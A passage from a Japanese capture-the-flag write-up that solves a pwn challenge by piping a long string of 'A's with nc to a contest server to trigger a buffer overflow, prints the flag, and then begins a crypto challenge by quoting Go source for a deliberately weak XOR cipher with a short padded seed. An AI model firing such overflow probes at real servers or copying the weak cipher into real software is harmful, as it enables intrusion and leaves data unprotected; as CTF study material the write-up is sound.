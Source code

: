 とりあえずサーバに接続して、バッファオーバーフローができないか試してみましょう。

```
$ echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA | nc 185.66.87.233 5004
Memes server
Enter the password: here is your meme: Aero{d31d0c1f564273c9bf3f1d1e1540c100}
```

フラグが得られました。

```
Aero{d31d0c1f564273c9bf3f1d1e1540c100}
```

## Crypto
### gocryptor (379)
> In our design office work young guys who love Golang. They developed a secure storage system for drawings using their encryption. We wrote a program for this on Go and now we all use it. However, our drawings still flow into the network. Check if the program may not work quite correctly. For example, we give you one encrypted drawing.
> 添付ファイル: gocryptor.go (ソースコード), example_drawing.enc (暗号化されたファイル)

`gocryptor.go` は以下のような内容でした。

```go
package main

import ( 
	"fmt"
	"io/ioutil"
	"os"
	"crypto/md5"
)

func check( e error ) {
    if e != nil {
        panic( e )
    }
}

func gen_key( seed string ) string {
	if len( seed ) < 6 {
		for i := 0; i < 6 - len( seed ); i++ {
			seed += "0"
		}
	} else if len( seed ) > 6 {
		seed = seed[0:6]
	}

	return seed
}

func encrypt ( data []byte, key [16]byte ) {
	for i := 0; i < len( data ); i++ {
		data[ i ] ^= key[ i % len( key ) ]
	}
}

func main() {

	var (
		file string
		seed string
	)

```
